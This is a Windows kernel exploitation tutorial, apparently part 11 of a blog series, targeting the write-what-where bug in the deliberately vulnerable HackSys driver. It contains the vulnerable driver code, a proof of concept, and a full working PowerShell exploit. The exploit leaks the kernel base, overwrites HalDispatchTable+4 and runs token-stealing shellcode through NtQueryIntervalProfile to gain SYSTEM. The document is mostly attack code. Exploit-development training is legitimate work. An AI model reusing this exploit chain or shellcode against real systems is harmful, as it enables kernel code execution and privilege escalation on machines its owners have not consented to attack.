

NTSTATUS TriggerArbitraryOverwrite(IN PWRITE_WHAT_WHERE UserWriteWhatWhere) {
NTSTATUS Status = STATUS_SUCCESS;
PAGED_CODE();
__try {
// Verify if the buffer resides in user mode
ProbeForRead((PVOID)UserWriteWhatWhere,
sizeof(WRITE_WHAT_WHERE),
(ULONG)__alignof(WRITE_WHAT_WHERE));
DbgPrint("[+] UserWriteWhatWhere: 0x%p\n", UserWriteWhatWhere);
DbgPrint("[+] WRITE_WHAT_WHERE Size: 0x%X\n", sizeof(WRITE_WHAT_WHERE));
DbgPrint("[+] UserWriteWhatWhere->What: 0x%p\n", UserWriteWhatWhere->What);
DbgPrint("[+] UserWriteWhatWhere->Where: 0x%p\n", UserWriteWhatWhere->Where);
#ifdef SECURE
// Secure Note: This is secure because the developer is properly validating if address
// pointed by 'Where' and 'What' value resides in User mode by calling ProbeForRead()
// routine before performing the write operation
ProbeForRead((PVOID)UserWriteWhatWhere->Where,
sizeof(PULONG),
(ULONG)__alignof(PULONG));
ProbeForRead((PVOID)UserWriteWhatWhere->What,
sizeof(PULONG),
(ULONG)__alignof(PULONG));
*(UserWriteWhatWhere->Where) = *(UserWriteWhatWhere->What);
#else
DbgPrint("[+] Triggering Arbitrary Overwrite\n");
// Vulnerability Note: This is a vanilla Arbitrary Memory Overwrite vulnerability
// because the developer is writing the value pointed by 'What' to memory location
// pointed by 'Where' without properly validating if the values pointed by 'Where'
// and 'What' resides in User mode
*(UserWriteWhatWhere->Where) = *(UserWriteWhatWhere->What);
#endif
}
__except (EXCEPTION_EXECUTE_HANDLER) {
Status = GetExceptionCode();
DbgPrint("[-] Exception Code: 0x%X\n", Status);
}
return Status;
}
Part 11: Kernel Exploitation -> Write-What-Where
Hola, and welcome back to part 11 of the Windows exploit development tutorial series. Today we will be exploiting a Kernel write-what-where vulnerability using @HackSysTeam's extreme vulnerable driver. For more details on setting up the debugging environment see part 10. I'm kind of blitzing through these posts due to time constraints but please do let me know if you have any questions, let's get to it!
Resources:
+ HackSysExtremeVulnerableDriver (hacksysteam) - here
+ Driver write-what-where vulnerability - here
+ Arbitrary Memory Overwrite exploitation using HalDispatchTable - here
Recon the challenge
Let's have a look at part of the vulnerable function in question (here).
The driver takes two pointers, one shows what the driver will write to memory and one which provides the location where the driver will write. Again, great job on showing the vulnerability and what would have been the secure implementation. The issue here is that the driver does not validate that the location of the destination pointer is in userland, because of this we can overwrite an arbitrary Kernel address (4-bytes) with and arbitrary value (4-bytes).
Previously we saw how to get the function IOCTL by analyzing the IrpDeviceIoCtlHandler table. Here we will have a look at a different method. These are all the functions defined in the driver header.
#define HACKSYS_EVD_IOCTL_STACK_OVERFLOW CTL_CODE(FILE_DEVICE_UNKNOWN, 0x800, METHOD_NEITHER, FILE_ANY_ACCESS) #define HACKSYS_EVD_IOCTL_STACK_OVERFLOW_GS CTL_CODE(FILE_DEVICE_UNKNOWN, 0x801, METHOD_NEITHER, FILE_ANY_ACCESS) #define HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE CTL_CODE(FILE_DEVICE_UNKNOWN, 0x802, METHOD_NEITHER, FILE_ANY_ACCESS) #define HACKSYS_EVD_IOCTL_POOL_OVERFLOW CTL_CODE(FILE_DEVICE_UNKNOWN, 0x803, METHOD_NEITHER, FILE_ANY_ACCESS) #define HACKSYS_EVD_IOCTL_ALLOCATE_UAF_OBJECT CTL_CODE(FILE_DEVICE_UNKNOWN, 0x804, METHOD_NEITHER, FILE_ANY_ACCESS) #define HACKSYS_EVD_IOCTL_USE_UAF_OBJECT CTL_CODE(FILE_DEVICE_UNKNOWN, 0x805, METHOD_NEITHER, FILE_ANY_ACCESS) #define HACKSYS_EVD_IOCTL_FREE_UAF_OBJECT CTL_CODE(FILE_DEVICE_UNKNOWN, 0x806, METHOD_NEITHER, FILE_ANY_ACCESS) #define HACKSYS_EVD_IOCTL_ALLOCATE_FAKE_OBJECT CTL_CODE(FILE_DEVICE_UNKNOWN, 0x807, METHOD_NEITHER, FILE_ANY_ACCESS) #define HACKSYS_EVD_IOCTL_TYPE_CONFUSION CTL_CODE(FILE_DEVICE_UNKNOWN, 0x808, METHOD_NEITHER, FILE_ANY_ACCESS) #define HACKSYS_EVD_IOCTL_INTEGER_OVERFLOW CTL_CODE(FILE_DEVICE_UNKNOWN, 0x809, METHOD_NEITHER, FILE_ANY_ACCESS) #define HACKSYS_EVD_IOCTL_NULL_POINTER_DEREFERENCE CTL_CODE(FILE_DEVICE_UNKNOWN, 0x80A, METHOD_NEITHER, FILE_ANY_ACCESS) #define HACKSYS_EVD_IOCTL_UNINITIALIZED_STACK_VARIABLE CTL_CODE(FILE_DEVICE_UNKNOWN, 0x80B, METHOD_NEITHER, FILE_ANY_ACCESS) #define HACKSYS_EVD_IOCTL_UNINITIALIZED_HEAP_VARIABLE CTL_CODE(FILE_DEVICE_UNKNOWN, 0x80C, METHOD_NEITHER, FILE_ANY_ACCESS)
I/O Control Codes (IOCTL's) are composed of a few different components (type, code, method, access). The interesting thing is that the Windows driver kit has a standard macro which can be used to define new IOCTL's. We can actually extract all the valid IOCTL's by emulating the macro functionality as show below.
PowerShell v3+:
"{0:X}" -f $((0x00000022 -shl 16) -bor (0x00000000 -shl 14) -bor (FUNC_NUM_HERE -shl 2) -bor 0x00000003)
C++\C#:
(0x00000022 << 16) | (0x00000000 << 14) | (FUNC_NUM_HERE << 2) | 0x00000003
Example:
HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE = 0x802
=> "{0:X}" -f $((0x00000022 -shl 16) -bor (0x00000000 -shl 14) -bor (0x802 -shl 2) -bor 0x00000003)
=> IOCTL = 0x22200B
You can read more about the macro here. Now we have our IOCTL, let's do a quick sanity check using the IDA graph.
Looks good, one thing which slightly threw me off is the way the function determines which bytes it will write. It does not write the 4 bytes you give it, instead it treats those bytes as a pointer and writes the dword at that pointer. The buffer structure can be seen below.
# The first 4 bytes are a pointer to a pointer [IntPtr]$WriteWhatPtr(->$WriteWhat) + $WriteWhere
Just keep this in mind for later, if you simply give it the address of your shellcode it will actually write the first 4 bytes of your shellcode to the destination pointer.
I quickly put together a POC to test that we can call the function successfully.
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;
public static class EVD
{
[DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
public static extern IntPtr CreateFile(
String lpFileName,
UInt32 dwDesiredAccess,
UInt32 dwShareMode,
IntPtr lpSecurityAttributes,
UInt32 dwCreationDisposition,
UInt32 dwFlagsAndAttributes,
IntPtr hTemplateFile);
[DllImport("Kernel32.dll", SetLastError = true)]
public static extern bool DeviceIoControl(
IntPtr hDevice,
int IoControlCode,
byte[] InBuffer,
int nInBufferSize,
byte[] OutBuffer,
int nOutBufferSize,
ref int pBytesReturned,
IntPtr Overlapped);
[DllImport("kernel32.dll")]
public static extern uint GetLastError();
}
"@
$hDevice = [EVD]::CreateFile("\\.\HacksysExtremeVulnerableDriver", [System.IO.FileAccess]::ReadWrite,
[System.IO.FileShare]::ReadWrite, [System.IntPtr]::Zero, 0x3, 0x40000080, [System.IntPtr]::Zero)
if ($hDevice -eq -1) {
echo "`n[!] Unable to get driver handle..`n"
Return
} else {
echo "`n[>] Driver information.."
echo "[+] lpFileName: \\.\HacksysExtremeVulnerableDriver"
echo "[+] Handle: $hDevice"
}
# Buffer = WriteWhat + WriteWhere
$Buffer = [Byte[]](0x41)*0x4 + [Byte[]](0x42)*0x4
echo "`n[>] Sending buffer.."
echo "[+] Buffer length: $($Buffer.Length)"
echo "[+] IOCTL: 0x22200B`n"
[EVD]::DeviceIoControl($hDevice, 0x22200B, $Buffer, $Buffer.Length, $null, 0, [ref]0, [System.IntPtr]::Zero)
|Out-null
Sw33t, we have our exploit primitive!
Pwn all the things!
HalDispatchTable
The real questions is what address are we going to overwrite (in kernel space) that we can reliably find, execute and won't BSOD the box. Fortunately the hard work has been done for us, we can overwrite a Kernel dispatch table pointer with relative safety (first described by Ruben Santamarta in a 2007 paper titled "Exploiting common flaws in drivers")! As it turns out, there is an undocumented (rarely used) function called NtQueryIntervalProfile which measures delays between performance counter ticks. Under the hood this function calls the KeQueryIntervalProfile syscall. This does not seem particularly exiting till we disassemble KeQueryIntervalProfile.
NtQueryIntervalProfile will, as we can see, eventually end up calling a pointer at HalDispatchTable+0x4. If we can overwrite that pointer with the address of our shellcode and then call NtQueryIntervalProfile we should end up getting code execution in the kernel.
Now we know where we want to overwrite we still need to figure out how we can find the address of the HalDispatchTable. Luckily we can count on, the ever useful, undocumented, NtQuerySystemInformation function. If we call NtQuerySystemInformation and specify the SystemModuleInformation class we get back a list of loaded modules and their respective base addresses (including the NT Kernel). I will spare the reader the grim details of working with this API, I wrote a PowerShell script to do the heavy lifting, Get-SystemModuleInformation.
This effectively bypasses ASLR in the kernel because we can use the base address of the loaded modules to calculate any function offset we want. Below you can see the simple pointer arithmetic to get the HalDispatchTable offset.
$SystemModuleArray = Get-SystemModuleInformation
$KernelBase = $SystemModuleArray[0].ImageBase
$KernelType = ($SystemModuleArray[0].ImageName -split "\\")[-1]
$KernelHanle = [Kernel32]::LoadLibrary("$KernelType")
$HALUserLand = [Kernel32]::GetProcAddress($KernelHanle, "HalDispatchTable")
$HalDispatchTable = $HALUserLand.ToInt32() - $KernelHanle + $KernelBase


Shellcode
We can reuse the token stealing shellcode we created for the previous post, provided we amend the recovery portion.
$Shellcode = [Byte[]] @( #---[Setup] 0x60, # pushad 0x64, 0xA1, 0x24, 0x01, 0x00, 0x00, # mov eax, fs:[KTHREAD_OFFSET] 0x8B, 0x40, 0x50, # mov eax, [eax + EPROCESS_OFFSET] 0x89, 0xC1, # mov ecx, eax (Current _EPROCESS structure) 0x8B, 0x98, 0xF8, 0x00, 0x00, 0x00, # mov ebx, [eax + TOKEN_OFFSET] #---[Copy System PID token] 0xBA, 0x04, 0x00, 0x00, 0x00, # mov edx, 4 (SYSTEM PID) 0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, # mov eax, [eax + FLINK_OFFSET] <-| 0x2D, 0xB8, 0x00, 0x00, 0x00, # sub eax, FLINK_OFFSET | 0x39, 0x90, 0xB4, 0x00, 0x00, 0x00, # cmp [eax + PID_OFFSET], edx | 0x75, 0xED, # jnz ->| 0x8B, 0x90, 0xF8, 0x00, 0x00, 0x00, # mov edx, [eax + TOKEN_OFFSET] 0x89, 0x91, 0xF8, 0x00, 0x00, 0x00, # mov [ecx + TOKEN_OFFSET], edx #---[Recover] 0x61, # popad 0xC3 # ret )
Basically we don't need to restore those extra instructions we used before. In addition, we are hijacking a function call so we need to preserve the register sate and end our shellcode with a return to continue execution flow as normal.
Game Over
That should be the full run-through, there are just some minor details on setting up the pointers and allocating the shellcode. Please refer to the full exploit below for more information.
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;
[StructLayout(LayoutKind.Sequential, Pack = 1)]
public struct SYSTEM_MODULE_INFORMATION
{
[MarshalAs(UnmanagedType.ByValArray, SizeConst = 2)]
public UIntPtr[] Reserved;
public IntPtr ImageBase;
public UInt32 ImageSize;
public UInt32 Flags;
public UInt16 LoadOrderIndex;
public UInt16 InitOrderIndex;
public UInt16 LoadCount;
public UInt16 ModuleNameOffset;
[MarshalAs(UnmanagedType.ByValArray, SizeConst = 256)]
internal Char[] _ImageName;
public String ImageName {
get {
return new String(_ImageName).Split(new Char[] {'\0'}, 2)[0];
}
}
}
public static class EVD
{
[DllImport("kernel32", SetLastError=true, CharSet = CharSet.Ansi)]
public static extern IntPtr LoadLibrary(
string lpFileName);
[DllImport("kernel32", CharSet=CharSet.Ansi, ExactSpelling=true, SetLastError=true)]
public static extern IntPtr GetProcAddress(
IntPtr hModule,
string procName);
[DllImport("kernel32.dll", SetLastError = true)]
public static extern IntPtr VirtualAlloc(
IntPtr lpAddress,
uint dwSize,
UInt32 flAllocationType,
UInt32 flProtect);
[DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
public static extern IntPtr CreateFile(
String lpFileName,
UInt32 dwDesiredAccess,
UInt32 dwShareMode,
IntPtr lpSecurityAttributes,
UInt32 dwCreationDisposition,
UInt32 dwFlagsAndAttributes,
IntPtr hTemplateFile);
[DllImport("Kernel32.dll", SetLastError = true)]
public static extern bool DeviceIoControl(
IntPtr hDevice,
int IoControlCode,
byte[] InBuffer,
int nInBufferSize,
byte[] OutBuffer,
int nOutBufferSize,
ref int pBytesReturned,
IntPtr Overlapped);
[DllImport("ntdll.dll")]
public static extern int NtQuerySystemInformation(
int SystemInformationClass,
IntPtr SystemInformation,
int SystemInformationLength,
ref int ReturnLength);
[DllImport("ntdll.dll")]
public static extern uint NtQueryIntervalProfile(
UInt32 ProfileSource,
ref UInt32 Interval);
[DllImport("kernel32.dll")]
public static extern uint GetLastError();
}
"@
# Call NtQuerySystemInformation->SystemModuleInformation
# & Alloc buffer for the result
[int]$BuffPtr_Size = 0
while ($true) {
[IntPtr]$BuffPtr = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($BuffPtr_Size)
$SystemInformationLength = New-Object Int
# SystemModuleInformation Class = 11
$CallResult = [EVD]::NtQuerySystemInformation(11, $BuffPtr, $BuffPtr_Size, [ref]$SystemInformationLength)
# STATUS_INFO_LENGTH_MISMATCH
if ($CallResult -eq 0xC0000004) {
[System.Runtime.InteropServices.Marshal]::FreeHGlobal($BuffPtr)
[int]$BuffPtr_Size = [System.Math]::Max($BuffPtr_Size,$SystemInformationLength)
}
# STATUS_SUCCESS
elseif ($CallResult -eq 0x00000000) {
break
}
# Probably: 0xC0000005 -> STATUS_ACCESS_VIOLATION
else {
[System.Runtime.InteropServices.Marshal]::FreeHGlobal($BuffPtr)
echo "[!] Error, NTSTATUS Value: $('{0:X}' -f ($CallResult))`n"
return
}
}
# Create SystemModuleInformation struct
$SYSTEM_MODULE_INFORMATION = New-Object SYSTEM_MODULE_INFORMATION
$SYSTEM_MODULE_INFORMATION = $SYSTEM_MODULE_INFORMATION.GetType()
if ([System.IntPtr]::Size -eq 4) {
$SYSTEM_MODULE_INFORMATION_Size = 284
} else {
$SYSTEM_MODULE_INFORMATION_Size = 296
}
# Read SystemModuleInformation array count
# & increment offset IntPtr size
$BuffOffset = $BuffPtr.ToInt64()
$HandleCount = [System.Runtime.InteropServices.Marshal]::ReadInt32($BuffOffset)
$BuffOffset = $BuffOffset + [System.IntPtr]::Size
# Loop SystemModuleInformation array
# & store output in $SystemModuleArray
$SystemModuleArray = @()
for ($i=0; $i -lt $HandleCount; $i++){
$SystemPointer = New-Object System.Intptr -ArgumentList $BuffOffset
$Cast = [system.runtime.interopservices.marshal]::PtrToStructure($SystemPointer,[type]$SYSTEM_MODULE_INFORMATION)
$HashTable = @{
ImageName = $Cast.ImageName
ImageBase = if ([System.IntPtr]::Size -eq 4) {$($Cast.ImageBase).ToInt32()} else {$($Cast.ImageBase).ToInt64()}
ImageSize = "0x$('{0:X}' -f $Cast.ImageSize)"
}
$Object = New-Object PSObject -Property $HashTable
$SystemModuleArray += $Object
$BuffOffset = $BuffOffset + $SYSTEM_MODULE_INFORMATION_Size
}
# Free SystemModuleInformation array
[System.Runtime.InteropServices.Marshal]::FreeHGlobal($BuffPtr)
# Get pointer to nt!HalDispatchTable
echo "`n[>] Leaking HalDispatchTable pointer.."
$KernelBase = $SystemModuleArray[0].ImageBase
$KernelType = ($SystemModuleArray[0].ImageName -split "\\")[-1]
$KernelHanle = [EVD]::LoadLibrary("$KernelType")
$HALUserLand = [EVD]::GetProcAddress($KernelHanle, "HalDispatchTable")
$HalDispatchTable = $HALUserLand.ToInt32() - $KernelHanle + $KernelBase
$WriteWhere = [System.BitConverter]::GetBytes($HalDispatchTable+4)
echo "[+] Kernel Base: 0x$('{0:X}' -f $KernelBase)"
echo "[+] HalDispatchTable: 0x$('{0:X}' -f $HalDispatchTable)"
# Compiled with Keystone-Engine
# Hardcoded offsets for Win7 x86 SP1
$Shellcode = [Byte[]] @(
#---[Setup]
0x60, # pushad
0x64, 0xA1, 0x24, 0x01, 0x00, 0x00, # mov eax, fs:[KTHREAD_OFFSET]
0x8B, 0x40, 0x50, # mov eax, [eax + EPROCESS_OFFSET]
0x89, 0xC1, # mov ecx, eax (Current _EPROCESS structure)
0x8B, 0x98, 0xF8, 0x00, 0x00, 0x00, # mov ebx, [eax + TOKEN_OFFSET]
#---[Copy System PID token]
0xBA, 0x04, 0x00, 0x00, 0x00, # mov edx, 4 (SYSTEM PID)
0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, # mov eax, [eax + FLINK_OFFSET] <-|
0x2D, 0xB8, 0x00, 0x00, 0x00, # sub eax, FLINK_OFFSET |
0x39, 0x90, 0xB4, 0x00, 0x00, 0x00, # cmp [eax + PID_OFFSET], edx |
0x75, 0xED, # jnz ->|
0x8B, 0x90, 0xF8, 0x00, 0x00, 0x00, # mov edx, [eax + TOKEN_OFFSET]
0x89, 0x91, 0xF8, 0x00, 0x00, 0x00, # mov [ecx + TOKEN_OFFSET], edx
#---[Recover]
0x61, # popad
0xC3 # ret
)
# Write shellcode to memory
echo "`n[>] Allocating ring0 payload.."
[IntPtr]$Pointer = [EVD]::VirtualAlloc([System.IntPtr]::Zero, $Shellcode.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($Shellcode, 0, $Pointer, $Shellcode.Length)
$WriteWhat = [System.BitConverter]::GetBytes($Pointer.ToInt32())
echo "[+] Payload size: $($Shellcode.Length)"
echo "[+] Payload address: 0x$("{0:X8}" -f $Pointer.ToInt32())"
# Get handle to driver
$hDevice = [EVD]::CreateFile("\\.\HacksysExtremeVulnerableDriver", [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::ReadWrite, [System.IntPtr]::Zero, 0x3, 0x40000080, [System.IntPtr]::Zero)
if ($hDevice -eq -1) {
echo "`n[!] Unable to get driver handle..`n"
Return
} else {
echo "`n[>] Driver information.."
echo "[+] lpFileName: \\.\HacksysExtremeVulnerableDriver"
echo "[+] Handle: $hDevice"
}
# TriggerArbitraryOverwrite() IOCTL = 0x22200B
# => [IntPtr]$WriteWhatPtr->$WriteWhat + $WriteWhere
#---
[IntPtr]$WriteWhatPtr = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($WriteWhat.Length)
[System.Runtime.InteropServices.Marshal]::Copy($WriteWhat, 0, $WriteWhatPtr, $WriteWhat.Length)
$Buffer = [System.BitConverter]::GetBytes($WriteWhatPtr.ToInt32()) + $WriteWhere
echo "`n[>] Sending WriteWhatWhere buffer.."
echo "[+] IOCTL: 0x22200B"
echo "[+] Buffer length: $($Buffer.Length)"
echo "[+] WriteWhere: 0x$('{0:X}' -f $($HalDispatchTable+4)) => nt!HalDispatchTable+4`n"
[EVD]::DeviceIoControl($hDevice, 0x22200B, $Buffer, $Buffer.Length, $null, 0, [ref]0, [System.IntPtr]::Zero) |Out-null
# NtQueryIntervalProfile()->KeQueryIntervalProfile()
# => KeQueryIntervalProfile+0x23-> call dword HalDispatchTable+0x4
#---
# kd>
# nt!KeQueryIntervalProfile+0x23:
# 82cd0836 ff150404b382 call dword ptr [nt!HalDispatchTable+0x4 (82b30404)]
# 82cd083c 85c0 test eax,eax
# 82cd083e 7c0b jl nt!KeQueryIntervalProfile+0x38 (82cd084b)
#---
echo "[>] Calling NtQueryIntervalProfile trigger..`n"
[UInt32]$Dummy = 0
[EVD]::NtQueryIntervalProfile(0xb33f,[ref]$Dummy) |Out-Null
Also, think about it, after corrupting the HalDispatchTable pointer we have effectively created a Kernel gate. We can always overwrite our shellcode at the same offset and call NtQueryIntervalProfile to directly run new code in the kernel!